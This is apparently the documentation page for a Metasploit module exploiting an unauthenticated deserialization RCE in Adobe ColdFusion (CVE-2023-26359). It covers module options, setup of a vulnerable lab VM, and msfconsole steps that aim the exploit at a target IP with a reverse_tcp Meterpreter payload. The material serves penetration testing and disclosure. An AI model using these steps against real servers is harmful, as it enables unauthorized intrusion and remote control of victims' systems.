 ## Vulnerable Application
This module leverages an unauthenticated remote code execution vulnerability due to deserialization of untrusted data
in Adobe ColdFusion. The vulnerability affects ColdFusion 2021 Update 5 and earlier as well as ColdFusion 2018 Update
15 and earlier. For a full technical analysis of the vulnerability read the
[Rapid7 AttackerKB Analysis](https://attackerkb.com/topics/1iRdvtUgtW/cve-2023-26359/rapid7-analysis).

## Options
A default installation of ColdFusion will not require any of the below options to be configured as the default
values will work.

### CFC_ENDPOINT
The exploit requires a valid ColdFusion Component (CFC) endpoint to be reachable, although no method on this endpoint
will be called as the vulnerability is triggered before a remote method from the endpoint is called. Therefore this
option can be set to any CFC endpoint. By default this is set to
`/cf_scripts/scripts/ajax/ckeditor/plugins/filemanager/iedit.cfc` which is present in a default installation
of ColdFusion.

### CF_LOGFILE
This is the log file where the exploit will write arbitrary ColdFusion Markup Language (CFML) to. The path is relative
to the `wwwroot` folder. By default this value is `../logs/coldfusion-out.log` and should not need ot be changed.

## Testing
To setup a test environment, the following steps can be performed.
1. Setup either a Windows Server 2022 VM or a Ubuntu 22.04 VM.
2. Download either the [Windows ColdFusion 2021 Update 5
installer](https://cfdownload.adobe.com/pub/adobe/coldfusion/2021/cfinstaller/cf2021u5/ColdFusion_2021_GUI_WWEJ_win64.exe)
or the [Linux ColdFusion 2021 Update 5
installer](https://cfdownload.adobe.com/pub/adobe/coldfusion/2021/cfinstaller/cf2021u5/ColdFusion_2021_GUI_WWEJ_linux64.bin)
and install it.
3. Configure the ColdFusion server for production use and enable the Secure Profile during setup.
4. By default, Coldfusion will serve HTTP from TCP port 8500. Configure the operating system firewall to allow remote
access to this port. For example on Linux you can run `sudo ufw allow 8500/tcp`.
5. Follow the verification steps below.

## Verification Steps
1. Start msfconsole
2. `use exploit/multi/http/adobe_coldfusion_rce_cve_2023_26359`
3. `set LHOST eth0`
4. `set RHOST <TARGET_IP>`
5. `set target 3`
6. `set PAYLOAD linux/x64/meterpreter/reverse_tcp`
7. `check`
8. `exploit`
